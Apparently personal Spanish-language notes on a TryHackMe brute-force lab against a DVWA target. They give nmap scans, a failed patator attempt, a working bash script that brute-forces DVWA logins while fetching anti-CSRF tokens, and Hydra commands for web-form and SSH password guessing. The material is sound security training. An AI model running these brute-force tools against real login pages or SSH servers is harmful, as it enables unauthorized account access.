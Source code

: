 https://tryhackme.com/r/room/bruteforceheroes
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.232.59
```
![[Pasted image 20240502165940.png]]
## Reconocimiento de servicios
```
nmap -sVC -p22,80 -Pn 10.10.232.59
```
![[Pasted image 20240502170049.png]]

# Fase de ataque
## Patator
```
patator http_fuzz method=POST --threads=64 timeout=10 url="http://10.10.232.59/login.php" 0=passwords.txt body="username=admin&password=FILE0&Login=Login&user_token=d4cd292ce852945c6a82f2c6ab10e8c6 header="Cookie: PHPSESSID="j5283pc75309v4pcrom979i5ti"; security="impossible" -x ignore:fgrep=Location: login.php
```
No me funcionó
## Script anti CSRF
``` bash
#!/bin/bash
## Variables
URL="http://192.168.1.33/DVWA"
USER_LIST="user.txt"
PASS_LIST="password.txt"

## Value to look for in response (Whitelisting)
SUCCESS="Location: index.php"

## Anti CSRF token
CSRF="$( curl -s -c /tmp/dvwa.cookie "${URL}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2 )"
[[ "$?" -ne 0 ]] && echo -e '\n[!] Issue connecting! #1' && exit 1

## Counter
i=0

## Password loop
while read -r _PASS; do

  ## Username loop
  while read -r _USER; do

    ## Increase counter
    ((i=i+1))

    ## Feedback for user
    echo "[i] Try ${i}: ${_USER} // ${_PASS}"

    ## Connect to server
    #CSRF=$( curl -s -c /tmp/dvwa.cookie "${URL}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | awk -F "'" '{print $2}' )
    REQUEST="$( curl -s -i -b /tmp/dvwa.cookie --data "username=${_USER}&password=${_PASS}&user_token=${CSRF}&Login=Login" "${URL}/login.php" )"
    [[ $? -ne 0 ]] && echo -e '\n[!] Issue connecting! #2'

    ## Check response
    echo "${REQUEST}" | grep -q "${SUCCESS}"
    if [[ "$?" -eq 0 ]]; then
      ## Success!
      echo -e "\n\n[i] Found!"
      echo "[i] Username: ${_USER}"
      echo "[i] Password: ${_PASS}"
      break 2
    fi

  done < ${USER_LIST}
done < ${PASS_LIST}

## Clean up
rm -f /tmp/dvwa.cookie
```

## Hydra
Brute force form
``` bash
hydra -L users.txt -P password.txt 'http-get-form://10.10.232.59/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=j5283pc75309v4pcrom979i5ti; security=low:F=Username and/or password incorrect'
```
![[Pasted image 20240502183708.png]]

Brute Force ssh
```
 hydra -f -L userlist.txt -P encoded_passwords.txt 10.10.232.59 -t 4 ssh -V 
```
## Hashcat
```
hashcat -a 0 -m 1800 hash.txt <wordlist>
```


